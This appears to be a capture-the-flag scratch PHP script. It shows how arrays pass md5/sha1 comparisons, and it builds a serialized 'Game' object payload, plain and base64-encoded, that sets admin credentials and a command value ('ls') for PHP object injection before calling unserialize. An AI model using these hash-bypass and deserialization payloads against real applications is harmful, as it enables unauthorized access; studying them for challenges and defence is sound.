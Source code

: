 <?php
$a[]=123;
$b[]=124;
if($a!==$b){
    if(md5($a) === md5($b)) {
        if(sha1($a)=== sha1($b)){
            echo "hi";
            }
        else {
            echo "sha1";
        }
    }
        else{ 
            echo "md5";
        }
    
}
        else {
            echo "!=";
    }
    class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }
    
    public function __wakeup(){
        echo "wake";
    
    }
    public function __destruct() {
            echo "over";
        }

}
    $str="O:4:\"Game\":6:{s:8:\"username\";s:5:\"admin\";s:8:\"password\";s:5:\"admin\";s:8:\"register\";s:5:\"admin\";s:4:\"file\";s:4:\"Open\";s:8:\"filename\";s:5:\"index\";s:7:\"content\";s:2:\"ls\";}";  
    ###s:4:"file";s:4:"Open";s:8:"filename";s:7:"waf.txt";s:7:"content";s:3:"123";
    ###s:8:\"register\";s:5:\"admin\";
    ##file=Open
    ###filename=waf.txt
    ###content=123
    echo $str;
    echo "\n\n".base64_encode($str)."\n\n";
    echo base64_decode("Tzo0OiJHYW1lIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjt9")."\n";
    
    @unserialize($str);
    echo $Game->username;
?>